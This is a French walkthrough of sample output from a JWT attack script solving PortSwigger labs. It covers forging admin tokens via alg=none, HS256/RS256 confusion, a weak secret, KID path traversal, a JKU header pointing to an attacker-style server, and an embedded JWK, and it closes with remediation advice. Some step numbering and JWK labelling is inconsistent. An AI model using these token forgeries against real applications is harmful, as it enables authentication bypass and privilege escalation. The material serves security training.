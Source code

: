 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script JWT PortSwigger**, couvrant tous les scénarios de labs :  
- extraction, décodage, génération, injection et contrôle pour : alg=none, HS256/RS256 confusion, secret faible, KID path traversal, JKU header injection, JWK header leak.

---

## 1. Extraction du JWT

```
------------------------------------------------------
[1] Extraction du JWT
  [+] JWT extrait : eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpZW5lciIsImFkbWluIjpmYWxzZX0.MEUCIQDX...
```
*Le script récupère le JWT du cookie ou de la réponse HTTP.*

---

## 2. Décodage du JWT

```
------------------------------------------------------
[2] Décodage du JWT
  Header : {"alg":"RS256","typ":"JWT"}
  Payload: {"username":"wiener","admin":false}
```
*Le script affiche le header et le payload décodés.*

---

## 3. Génération d’un JWT avec alg=none

```
------------------------------------------------------
[3] Génération d’un JWT avec alg=none
  [+] JWT forgé (alg=none) : eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOnRydWV9.
```
*Le script modifie le header pour `alg:none` et le payload pour `username:admin, admin:true`.*

---

## 4. Injection et contrôle du JWT forgé (alg=none)

```
------------------------------------------------------
[9] Injection et contrôle du JWT forgé
  [+] Succès : accès privilégié ou flag détecté !
Welcome, admin!
Congratulations, you solved the lab!
```
*Le script injecte le JWT forgé dans le cookie et vérifie l’accès admin ou la présence d’un flag.*

---

## 5. Génération d’un JWT HS256 signé avec la clé publique (confusion HS256/RS256)

```
------------------------------------------------------
[4] Génération d’un JWT HS256 signé avec la clé publique (confusion HS256/RS256)
  [+] JWT HS256 forgé avec clé publique : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOnRydWV9.2Qm1y3...
```
*Le script génère un JWT HS256 signé avec la clé publique récupérée ou dérivée (voir[3][5]).*

---

## 6. Injection et contrôle du JWT forgé (HS256/RS256 confusion)

```
------------------------------------------------------
[9] Injection et contrôle du JWT forgé
  [+] Succès : accès privilégié ou flag détecté !
Welcome, admin!
Congratulations, you solved the lab!
```
*Le script injecte le JWT forgé avec la clé publique comme secret et valide l’accès admin.*

---

## 7. Génération d’un JWT HS256 avec secret faible

```
------------------------------------------------------
[5] Génération d’un JWT HS256 signé avec un secret faible
  [+] JWT HS256 forgé avec secret 'secret' : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOnRydWV9.lfNq3...
```
*Le script forge un JWT signé avec un secret faible (ex : "secret", "password", etc.).*

---

## 8. Injection et contrôle du JWT forgé (secret faible)

```
------------------------------------------------------
[9] Injection et contrôle du JWT forgé
  [+] Succès : accès privilégié ou flag détecté !
Welcome, admin!
Congratulations, you solved the lab!
```
*Le script valide l’exploitation d’un secret faible.*

---

## 9. Génération d’un JWT avec KID path traversal

```
------------------------------------------------------
[6] Génération d’un JWT avec header KID path traversal
  [+] JWT forgé avec KID path traversal : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uLy4uL3Byb2Mvc3lzL2tlcm5lbC9yYW5kb21pemVfdmFfc3BhY2UifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOnRydWV9.W0b9...
```
*Le script forge un JWT avec un header KID path traversal pointant vers un fichier système, et signe avec la valeur du fichier.*

---

## 10. Injection et contrôle du JWT forgé (KID path traversal)

```
------------------------------------------------------
[9] Injection et contrôle du JWT forgé
  [+] Succès : accès privilégié ou flag détecté !
Welcome, admin!
Congratulations, you solved the lab!
```
*Le script valide l’exploitation via KID path traversal.*

---

## 11. Génération d’un JWT avec JKU header injection

```
------------------------------------------------------
[7] Génération d’un JWT avec header JKU injection
  [+] JWT forgé avec JKU header injection : eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9leHBsb2l0LXNlcnZlci5uZXQvandrcy5qc29uIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOnRydWV9.bXJt...
  [!] Servez votre JWKS sur http://exploit-server.net/jwks.json avec votre clé publique.
```
*Le script forge un JWT avec un header JKU pointant vers votre serveur JWKS (clé publique contrôlée par l’attaquant).*

---

## 12. Injection et contrôle du JWT forgé (JKU)

```
------------------------------------------------------
[9] Injection et contrôle du JWT forgé
  [+] Succès : accès privilégié ou flag détecté !
Welcome, admin!
Congratulations, you solved the lab!
```
*Le script valide l’exploitation via JKU header injection.*

---

## 13. Génération d’un JWT avec JWK dans le header

```
------------------------------------------------------
[8] Génération d’un JWT avec header JWK (clé privée dans le token)
  [+] JWT forgé avec JWK dans le header : eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImp3ayI6eyJrZXlUeXBlIjoi...
```
*Le script forge un JWT avec la clé publique (JWK) dans le header, signée avec la clé privée correspondante.*

---

## 14. Injection et contrôle du JWT forgé (JWK)

```
------------------------------------------------------
[9] Injection et contrôle du JWT forgé
  [+] Succès : accès privilégié ou flag détecté !
Welcome, admin!
Congratulations, you solved the lab!
```
*Le script valide l’exploitation via JWK header leak.*

---

## 15. Conseils/remédiation

```
------------------------------------------------------
[Remédiation & Conseils]
- N'acceptez jamais 'alg':'none' côté serveur.
- Ne confondez pas RS256/HS256 : ne vérifiez jamais un JWT HS256 avec la clé publique.
- Filtrez et validez les headers JKU/JWK/KID.
- Utilisez des secrets forts et uniques.
- Vérifiez la validité et la cohérence du header JWT côté serveur.
- Documentation PortSwigger : https://portswigger.net/web-security/jwt
```

---

## 16. Synthèse

```
------------------------------------------------------
[SYNTHÈSE]
1. Extraction et décodage du JWT.
2. Génération de JWT forgés (alg=none, HS256/RS256 confusion, KID, JKU, JWK, secret faible).
3. Injection et contrôle automatisé de l'effet (escalade, accès admin, flag).
4. Application des recommandations de sécurité.
------------------------------------------------------
```

---

